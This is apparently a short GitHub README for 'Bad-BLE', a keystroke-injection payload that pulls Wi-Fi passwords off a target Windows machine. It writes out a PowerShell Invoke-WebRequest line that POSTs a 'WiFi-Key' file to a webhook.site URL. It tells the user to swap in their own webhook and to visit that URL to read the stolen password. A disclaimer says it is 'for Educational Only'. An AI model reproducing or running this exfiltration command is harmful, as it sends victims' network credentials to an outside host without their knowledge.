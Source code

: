 # Bad-BLE

Note from WFH2021-2025
Please use this wisely and for Educational Only:

Line 18 : change to your webhook address or you may leave as is :
STRINGLN powershell Invoke-WebRequest -Uri https://webhook.site/472afad1-5d96-4590-a85c-169e8b333bcf -Method POST -InFile WiFi-Key 

To see the extracted password you can visit https://webhook.site/472afad1-5d96-4590-a85c-169e8b333bcf or you own webhook site.

DEMO https://www.youtube.com/watch?v=TMpYiYwBGaQ

